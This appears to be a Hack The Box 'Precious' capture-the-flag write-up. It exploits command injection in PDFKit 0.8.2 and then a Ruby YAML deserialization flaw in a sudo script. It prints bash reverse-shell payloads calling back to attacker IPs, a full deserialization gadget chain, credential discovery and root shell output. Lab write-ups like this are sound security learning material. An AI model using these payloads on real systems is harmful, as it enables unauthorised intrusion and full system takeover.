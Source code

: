 

## Scanning

we start with inital nmap scan  `nmap -A -F IP`  and founf two open ports  `22` and  `80` . 
The target page looks like this
![](/Hack-The-Box/Precious/img/1.png)

Using  `Feroxbuster`  and  `wfuzz`  for hidden directry scan and subdomain enumeration but we got nothing usefull.

Going back to the web page, when we enterd a specific url in submit button it shows a flagged error 
`http://1p`
![](/Hack-The-Box/Precious/img/2.png)

But trying the payload like this  `hTtp://IP` we just got the  `url`   printed as  `pdf`.
![](/Hack-The-Box/Precious/img/3.png)

while chehcking about the pdf generator we found its generated through `PDFKit v 0.8.2`
After some reconnasence about PDFkit we founf this specific version is vulnerable to command injection `CVE-2022-25765`

For more details go through it `https://github.com/pdfkit/pdfkit/pull/509`

Now back to our machine through URL submit button enter our payload
```
http://ip/?name=$(id)
http://our_ip/?name=#{'%20 `bash -c "bash -i >&  /dev/tcp/our_ip/LPORT 0>&1"`'}
(For proper rev_shell)
```

```shell

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9898 
listening on [any] 9898 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.189] 36898
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```

### Privilege Escalation

While reading `/etc/passwd` we found a more privileage user rather than `root`
```Bash
ruby@precious:/home$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

So we need to do vertical Privilege esclation.
While going through `/home` dir of `ruby` we found a dir namde `.bundle` . Readong the config file iniside the directory we found the creds for henry user.

### Root
User henry have sudo  so by running `sudo -l` we found something intersting
```shell
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

`update_dependencies.yml` contains `YAML.load` function which can be exploited using yaml deserialization.
```yml
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
root@precious:/home/henry# cat /opt/up
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
 So using the following references we crafted a deserialization payload and expoit it.
 ```
 https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
```

#### Payload
```yml
---

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
           read: 0
                header: "abc"
                  debug_output: &1 !ruby/object:Net::WriteAdapter
                       socket: &1 !ruby/object:Gem::RequestSet
                                sets: !ruby/object:Net::WriteAdapter
                                             socket: !ruby/module 'Kernel'
                                                          method_id: :system
                                                                   git_set:'bash -c "bash -i >& /dev/tcp/10.10.14.17/5656 0>&1"'
                                                                        method_id: :resolve
                                                                    
```

` sudo /usr/bin/ruby /opt/update_dependencies.rb` will give a root rev-shell

```shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 5656
listening on [any] 5656 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.189] 33234
root@precious:/home/henry# whoami
whoami
root
```

